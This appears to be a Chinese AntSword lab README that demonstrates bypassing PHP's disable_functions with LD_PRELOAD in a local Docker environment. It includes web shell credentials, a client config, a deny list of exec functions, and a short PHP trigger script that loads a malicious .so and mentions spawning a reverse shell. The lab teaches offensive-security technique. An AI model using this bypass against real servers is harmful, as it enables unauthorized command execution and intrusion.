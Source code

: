 ## 01 利用 LD_PRELOAD 环境变量

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

### 使用条件

* Linux 操作系统
* `putenv`
* `mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`
* 存在可写的目录, 需要上传 `.so` 文件

###  绕过实验

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:|:-:
`http://127.0.0.1:18080/index.php` | ant
`http://127.0.0.1:18080/shell.php` | ant

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2019/07/08/5d2224b0aa7ad32603.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"YoW1ftyOv7JjrLmN","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562517866376}
```

3. 尝试使用虚拟终端执行命令, 无果

![2.png](https://i.loli.net/2019/07/08/5d2224b31884b21027.png)

4. 使用「绕过 disable_functions」插件, 选择 `LD_PRELOAD` 模式进行

![3.png](https://i.loli.net/2019/07/08/5d2224b4ecaf383830.png)

详细使用方法请点 [这里](https://mp.weixin.qq.com/s/GGnumPklkUNMLZKQL4NbKg)

成功后可以看到 `/var/www/html/` 目录下新建了一个 `.antproxy.php` 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 `.antproxy.php`, 就可以成功执行命令。

![4.png](https://i.loli.net/2019/07/08/5d2224b7e1e2696154.png)

**注意**

从上图可看出来，我们利用 LD_PRELOAD, 在目标机器的 lo 上用 PHP 启动了一个 http server, 并且加载的是 PHP 默认配置。

所以我们需要在插件中填写正确的 php 可执行文件的路径(如果在环境变量中, 可以直接写 `php`)

#### 手动

原理脚本如下:

```
<?php
  putenv("LD_PRELOAD=/tmp/hack.so");
  error_log("a",1);
  mail("a@localhost","","","","");
?>
```

利用 LD_PRELOAD 环境变量, 加载 hack.so, 在 hack.so 中执行命令.

我们可以直接利用 hack.so 反弹 shell, 或者将输出重定向到文件当中
